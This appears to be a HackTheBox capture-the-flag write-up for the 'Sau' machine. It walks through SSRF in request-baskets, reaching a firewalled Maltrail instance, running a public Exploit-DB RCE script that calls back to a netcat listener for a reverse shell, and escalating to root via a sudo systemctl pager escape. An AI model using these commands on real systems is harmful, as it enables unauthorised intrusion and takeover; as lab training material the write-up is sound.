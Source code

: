 ```yaml
---
description: Sau writeup by Thamizhiniyan C S
---
```


# Sau

## Overview

Hello everyone, In this blog we are going to solve Sau from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Sau](https://app.hackthebox.com/machines/Sau)

Lets Start 🙌

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

\[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

***

## Reconnaissance

First I started by scanning for open ports on the target machine.

<figure><img src="../../.gitbook/assets/Untitled (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Untitled 1 (13).png" alt=""><figcaption></figcaption></figure>

From the response of the `nmap` , there are 3 open ports of which one is SSH running on port 22, on port 80 HTTP service is running, but its filtered by firewall and the other one is running on port `55555` , which is unknown, but returns a response for HTTP GET request.

On visiting port 55555 on via browser, It returned a website.

***

## Enumerating the Website

<figure><img src="../../.gitbook/assets/Untitled 2 (12).png" alt=""><figcaption></figcaption></figure>

In the website is running the `request baskets` service version `1.2.1`. On searching about this service on google, found this:&#x20;

{% embed url="https://www.exploit-db.com/exploits/51675" %}

&#x20;which proves that the website is vulnerable to SSRF vulnerability. To exploit this vulnerability first create a new basket.

<figure><img src="../../.gitbook/assets/Untitled 3 (13).png" alt=""><figcaption></figcaption></figure>

Next make a note on the basket name and the access token and click on open basket.

<figure><img src="../../.gitbook/assets/Untitled 4 (13).png" alt=""><figcaption></figcaption></figure>

After opening the basket click on the settings icon on the top right corner.

<figure><img src="../../.gitbook/assets/Untitled 5 (13).png" alt=""><figcaption></figcaption></figure>

It open a configuration dialog box.

<figure><img src="../../.gitbook/assets/Untitled 6 (13).png" alt=""><figcaption></figcaption></figure>

On the configuration dialog box, fill the details as shown in the above figure and click apply. By configuring as mentioned above, we are trying to access the HTTP service running on port `80` which was blocked by the firewall on the target machine by leveraging the SSRF vulnerability.

Basically what ever URL we configure on request basket, the request basket will send a GET request on its behalf and fetch the results for us, in our case it acts like a proxy to fetch the website, which is not accessible to use from the outside network, but is accessible to request basket application, since it is running on the same network on which the web service is running.

<figure><img src="../../.gitbook/assets/Untitled 7 (10).png" alt=""><figcaption></figcaption></figure>

Now open the link \[ mentioned in the above picture, link might be different in your case ] in a new tab.

<figure><img src="../../.gitbook/assets/Untitled 8 (10).png" alt=""><figcaption></figcaption></figure>

We can see a website which is running `Maltrail v0.53`, nothing else is interesting on the website. So I started searching about `Maltrail v0.53`, and found this&#x20;

{% embed url="https://www.exploit-db.com/exploits/51676" %}

from which we can devise that the service is vulnerable to RCE.

***

## Getting the User Flag

I downloaded the payload to give it a try.

{% embed url="https://www.exploit-db.com/download/51676" %}

<figure><img src="../../.gitbook/assets/Untitled 9 (10).png" alt=""><figcaption></figcaption></figure>

Before executing the payload, I started a `netcat` listener on port 8000.

<figure><img src="../../.gitbook/assets/Untitled 10 (10).png" alt=""><figcaption></figcaption></figure>

Now its time to execute the payload.

Command: `python3 51676 <HTB_VPN_TUN_IP> 8000 <the_request_basket_address_that_we_used_to_access_the_web_service>`

<figure><img src="../../.gitbook/assets/Untitled 11 (9).png" alt=""><figcaption></figcaption></figure>

After executing the exploit, check the `netcat` listener.

<figure><img src="../../.gitbook/assets/Untitled 12 (9).png" alt=""><figcaption></figcaption></figure>

We successfully got the connection back. Now we got our initial access to the target machine. First I upgraded the shell.

Command: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

<figure><img src="../../.gitbook/assets/Untitled 13 (9).png" alt=""><figcaption></figcaption></figure>

And also I found the user flag.

<figure><img src="../../.gitbook/assets/Untitled 14 (8).png" alt=""><figcaption></figcaption></figure>

***

## Getting the Root Flag

Now its time to escalate our privileges and find the root flag.

I was looking out for some common privilege escalation vectors and found this.

<figure><img src="../../.gitbook/assets/Untitled 15 (7).png" alt=""><figcaption></figcaption></figure>

The user `puma` can run the command `/usr/bin/systemctl status trail.service` as `sudo` without entering the password. I checked GTFObins regarding this and found this&#x20;

{% embed url="https://gtfobins.github.io/gtfobins/systemctl/#sudo" %}

<figure><img src="../../.gitbook/assets/Untitled 16 (7).png" alt=""><figcaption></figcaption></figure>

Thus if we run the command `sudo /usr/bin/systemctl status trail.service` , then run the command `!sh` after entering into the less page, we can escalate our privileges as root.

<figure><img src="../../.gitbook/assets/Untitled 17 (8).png" alt=""><figcaption></figcaption></figure>

Now we have successfully escalated our privileges as root. Now its time to find the root flag.

<figure><img src="../../.gitbook/assets/Untitled 18 (8).png" alt=""><figcaption></figcaption></figure>

We have successfully found the root flag.

Thank You…….
